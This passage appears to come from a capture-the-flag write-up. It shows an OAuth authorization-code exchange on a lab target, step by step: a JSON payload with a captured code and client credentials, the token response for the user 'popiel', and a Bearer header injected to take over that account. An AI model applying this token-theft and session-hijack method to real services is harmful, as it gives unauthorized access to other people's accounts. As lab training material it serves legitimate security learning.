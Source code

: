 `grant_type` is already there

`code` can be taken from `authorization_code.txt`

`redirect_uri` is the same as before

Our final payload looks like this:

```json
{
    "grant_type": "authorization_code",
    "code": "Oz5xWmb0pCQEZJp6puQQoSKuM1JK9jczqe3CLKqvl0VuFM7VsWJFqMU6CF0T0ipdOtmy8lkRPIsz0PoWSTbf2gTLx86NZ7YYIY6pZ0Sj8nP6kcQY2uUFRVhxzmAhudrR",
    "redirect_uri": "https://alchemy-mixer-ng.ctf/auth/callback",
    "client_id": "PKFINjh9Xsr791tQAiCP0QMEqxjxIBZiV4IuvIoIZQ7JPjnfebXiFRM3AMZjkDdE",
    "client_secret": "ZaM40hhUd4CCMgYRaIdNMdtZL5sHxHvs9BpZ3uIhWRS4fybhRGGIbaojfGfYjLO4"
}
```

At first I used `camelCase` instead of `snake_case` for client id and secret like in response we got, but server then returns a 500 error. `snake_case` is used in source code and blog post and is a correct way to send client id and secret.

Sending it to `http://MACHINE_IP/apps/oauth2/api/v1/token` returns:

```json
{
    "access_token": "aHWFm3p3eRyOMTz45kDyhNX9EqGkEPz1dbkH7SFxhhDPB9WIaamQRtaWhbpC0AadpTO6lcAh",
    "token_type": "Bearer",
    "expires_in": 3600,
    "refresh_token": "Oz5xWmb0pCQEZJp6puQQoSKuM1JK9jczqe3CLKqvl0VuFM7VsWJFqMU6CF0T0ipdOtmy8lkRPIsz0PoWSTbf2gTLx86NZ7YYIY6pZ0Sj8nP6kcQY2uUFRVhxzmAhudrR",
    "user_id": "popiel"
}
```

We got `access_token` of type `Bearer` for Popiel. To utilize it I used [ModHeader](https://modheader.com/) extension again by adding header:

`Authorization: Bearer aHWFm3p3eRyOMTz45kDyhNX9EqGkEPz1dbkH7SFxhhDPB9WIaamQRtaWhbpC0AadpTO6lcAh`

After logging out of Puck's account we are logged in as Popiel.